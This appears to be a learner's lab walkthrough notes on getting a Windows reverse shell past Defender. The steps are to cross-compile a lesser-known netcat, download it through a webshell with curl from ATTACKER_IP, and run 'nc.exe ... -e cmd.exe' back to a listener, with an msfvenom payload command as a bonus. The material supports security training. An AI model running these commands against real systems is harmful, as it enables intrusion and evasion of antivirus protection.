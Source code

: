 Our webshell is all well and good, but let's go for a full reverse shell!

Unfortunately, we have a problem. Unlike in Linux where there are usually many ways to obtain a reverse shell, the options in Windows are a lot fewer in number as Windows tends not to have many scripting languages installed by default.

Realistically we have several options here:

- Powershell tends to be the go-to for Windows reverse shells. Unfortunately Defender knows exactly what PowerShell reverse shells look like, so we'd have to do some serious obfuscation to get this to work.
- We could try to get a PHP reverse shell as we know the target has a PHP interpreter installed. Windows PHP reverse shells tend to be iffy though, and again, may trigger Defender.
- We could generate an executable reverse shell using msfvenom, then upload and activate it using the webshell. Again, msfvenom shells tend to be very distinctive. We could use the [Veil Framework](https://www.veil-framework.com/) to give us a meterpreter shell executable that might bypass Defender, but let's try to keep this manual for the time. Equally, [shellter](https://www.shellterproject.com/) (though old) might give us what we need. There are easier options though.
- We could upload netcat. This is the quick and easy option.

The only problem with uploading netcat is that there are hundreds of different variants -- the version of netcat for Windows that comes with Kali is known to Defender, so we're going to need a different version. Fortunately there are many floating around! Let's use one from github, [here](https://github.com/int0x33/nc.exe/).

## Clone the repository  

`git clone https://github.com/int0x33/nc.exe/`  

This repository already contains pre-compiled netcat binaries for both 32 and 64 bit systems, however, this is an ideal time to talk about cross-compilation techniques. If you'd prefer to just use the default binaries then just skip to the last section of this task and use the `nc64.exe` binary from the repository.

## Cross compilation

Cross compilation is an essential skill -- although in many ways it's preferable to avoid it.

First up: what is cross compilation? The idea is to compile source code into a working program to run on a different platform. In other words, cross compilation would allow us to compile a program for a different Linux kernel, a Windows program on Kali (as we're doing here), or even software for an embedded device or phone.

Whilst cross-compilation is a very useful skill to have, it's often difficult to get completely correct. Ideally we should always try to compile our code in an environment as close to the target environment as possible. For example, if an exploit or program is designed to work on CentOS 7.2, we should try to compile it in a CentOS 7.2 VM if possible. Equally, it's essential that we get the same arch as that of the target -- a 64 bit program won't work very well on a 32 bit target!

Sometimes it's easiest to just cross-compile, however. Generally speaking we cross compile x64 Windows programs on Kali using the `mingw-w64` package (for x64 systems). This is not installed on Kali by default, however it is available in the Kali apt repositories:  
`sudo apt install mingw-w64`  

This is a big package, but once it's installed we can start re-compiling netcat.

Much like we use `gcc` to compile binaries on Linux, we can use the `mingw` compilers to compile Windows binaries. These tend to have very descriptive (read: long) names, but the one that's of particular importance to us here is `x86_64-w64-mingw32-gcc`. This specifies that we want to compile a 64bit binary.  

Inside the nc.exe repository we downloaded, delete or move the two pre-compiled netcat binaries. The repository provides a makefile which we can use (with some small alterations) to compile the binary. Open up the `Makefile` with your favourite text editor. The first two lines specify which compiler to use:

![[499921a44689.webp]]

Neither of these are quite what we're looking for, so comment out the first line and add another line underneath:  
`CC=x86_64-w64-mingw32-gcc`

![[d71f7f2fcb0e.webp]]

Now when we run `make` to build the binary, the correct compiler will be used to generate a x64 Windows executable. Note that there will be a lot of warnings generated by the compiler (these have been redirected to `/dev/null` in the following screenshot for readability, however, you do not need to do this). These are nothing to worry about; the compilation should still be successful.

![[b29a99fd33fd.webp]]

## Uploading nc.exe to the target

With a copy of netcat available, we now need to get it up to the target.

Start a Python webserver on your #Attacking_Machine (as demonstrated numerous times previously):  
`sudo python3 -m http.server 80   `

Despite it often being much harder to upload binaries to Windows than it is to upload to Linux, we do have a few options here.

- Powershell _might_ work, but with AMSI in play it's a risk.
- We could use the file upload point that we originally exploited to upload an unrestricted PHP file uploader (in the same way that we uploaded the original webshell, although this would be a bit of a pain with embedding the uploader in an image).
- We could look for other command line tools installed on the target such as `curl.exe` or `certutil.exe`, both of which might allow for a file upload.

Try to execute both of this in the webshell -- both should work.

> [!Question]
>What output do you get when running the command: `certutil.exe`?
>`CertUtil: -dump command completed successfully.`


## Certutil

Certutil is a default Windows tool that is used to (amongst other things) download CA certificates. This also makes it ideal for file transfers, _but_ Defender flags this as malicious.

Instead we'll stick with trusty old cURL.

## cURL

From #Webshell  use cURL to upload your new copy of netcat to the target:

`curl http://ATTACKER_IP/nc.exe/nc64.exe -o c:\\windows\\tasks\\nc-USERNAME.exe   `

> [!info]
>The room says to use the temp folder within Windows, however, I had trouble with that, a much safer and more guaranteed option is to use the tasks folders as that’s world writable.

> [!Note]
>Note the double backslashes used here. This is purely due to how the webshell handles backslashes. We need to escape the backslashes so that they are passed in as a part of the command, as opposed to escaping the letters immediately after them.

We now have everything we need to get a reverse shell back from this target.

Set up a netcat listener on your #Attacking_Machine 
`sudo nc -lvnp 443`

In your #webshell, use the following command:

`powershell.exe c:\\windows\\task\\nc-USERNAME.exe ATTACKER_IP ATTACKER_PORT -e cmd.exe   `

e.g.  
`powershell.exe c:\\windows\\tasks\\nc-MuirlandOracle.exe 10.50.73.2 443 -e cmd.exe   `

This should result in a reverse shell from the target!

![[ac7e2a438cd5.webp]]

> [!Note]
>In order for this to work we had to wrap the netcat command inside a powershell process to keep it from exiting early.

**Bonus Question (optional):** Try generating a metasploit reverse shell and transfer it to the target (`msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=ATTACKING_IP LPORT=CHOOSE_A_PORT`) -- make sure to place it in a directory you can list (e.g. the Uploads directory of the webserver). This shell will get picked up by Defender (so don't do it anywhere else!), but it will give you a feel for how antivirus operates when it detects your payload as being malicious.

You should get an error message when trying to execute the executable and the exe will also disappear from the current directory (placed into quarantine by the AV). At this point the Administrator has also been alerted, along with the security team in a bigger organisation.

**Next sep: ** [[AV EVASION/Enumeration|Enumeration]]

